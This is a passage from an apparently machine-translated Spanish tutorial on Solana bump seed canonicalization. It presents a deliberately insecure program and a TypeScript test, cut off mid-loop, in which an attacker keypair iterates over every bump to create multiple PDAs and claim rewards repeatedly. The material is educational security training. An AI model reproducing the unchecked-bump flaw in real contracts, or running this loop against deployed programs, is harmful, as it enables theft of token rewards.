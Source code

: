 ### 1. Configuración

Comience por obtener el código en la `starter` rama de[este repositorio](https://github.com/Unboxed-Software/solana-bump-seed-canonicalization/tree/starter).

Observe que hay dos instrucciones en el programa y una sola prueba en el `tests` directorio.

Las instrucciones del programa son:

1.  `create_user_insecure`
2.  `claim_insecure`

La `create_user_insecure` instrucción simplemente crea una nueva cuenta en un PDA derivado utilizando la clave pública del firmante y un bache pasado.

La `claim_insecure` instrucción acuña 10 fichas para el usuario y luego marca las recompensas de la cuenta según lo reclamado para que no puedan reclamar nuevamente.

Sin embargo, el programa no verifica explícitamente que los PDA en cuestión estén usando el bache canónico.

Echa un vistazo al programa para entender lo que hace antes de continuar.

### 2. Instrucciones de prueba inseguras

Dado que las instrucciones no requieren explícitamente que la `user` PDA use el bache canónico, un atacante puede crear varias cuentas por billetera y reclamar más recompensas de las que se deberían permitir.

La prueba en el `tests` directorio crea un nuevo par de claves llamado `attacker` para representar a un atacante. Luego recorre todos los posibles golpes y llamadas `create_user_insecure` y `claim_insecure`. Al final, la prueba espera que el atacante haya podido reclamar recompensas varias veces y haya ganado más de los 10 tokens asignados por usuario.

```ts
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate();
    await safeAirdrop(attacker.publicKey, provider.connection);
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey);

    let numClaims = 0;

    for (let i = 0; i < 256; i++) {
        try {
            const pda = createProgramAddressSync(
                [attacker.publicKey.toBuffer(), Buffer.from([i])],
                program.programId,
            );
            await program.methods
                .createUserInsecure(i)
                .accounts({
                    user: pda,
                    payer: attacker.publicKey,
                })
                .signers([attacker])
                .rpc();
            await program.methods
                .claimInsecure(i)
                .accounts({
                    user: pda,
                    mint,
                    payer: attacker.publicKey,
                    userAta: ataKey,
                })
                .signers([attacker])
                .rpc();

            numClaims += 1;
```